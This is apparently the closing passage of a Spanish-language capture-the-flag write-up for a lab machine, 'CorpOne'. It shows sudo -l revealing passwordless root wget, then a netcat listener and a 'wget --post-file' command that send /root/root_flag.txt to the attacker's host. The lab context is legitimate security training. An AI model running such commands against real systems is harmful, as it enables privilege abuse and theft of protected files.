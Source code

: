 Hacemos sudo -l para ver que comandos podemos ejecutar como root y nos reporta lo siguiente:

```bash
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

# [](#header-1)Escalada de privilegios

Parece ser que podemos pasarnos archivos a nuestro equipo mediante wget. Visito <a href="http://gtfobins.github.io">GTFOBins</a> para ver el método y lo llevo a cabo.

Me pongo en esucha por el puerto 80 desde mi equipo y redirigo el output que me va a llegar al archivo root_flag.txt

```bash
❯ nc -lnvp 80 > root_flag.txt
listening on [any] 80 ...
```

Por otro lado, desde el usuario Jessie ejecutamos:

```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://$YOUR-IP/
```

Nos confirma la conexión y podemos abrir el archivo root_flag desde nuestro equipo:

```bash
❯ cat root_flag.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────
       │ File: root_flag.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────
   1   │ POST / HTTP/1.1
   2   │ User-Agent: Wget/1.17.1 (linux-gnu)
   3   │ Accept: */*
   4   │ Accept-Encoding: identity
   5   │ Host: 10.8.79.39
   6   │ Connection: Keep-Alive
   7   │ Content-Type: application/x-www-form-urlencoded
   8   │ Content-Length: 33
   9   │ 
  10   │ ??????????????????????????????????
───────┴─────────────────────────────────────────────────────────────────────────────────────────────
```

Obtenemos así la flag de root!

Muchas gracias por leer este writeup, espero que te haya gustado!
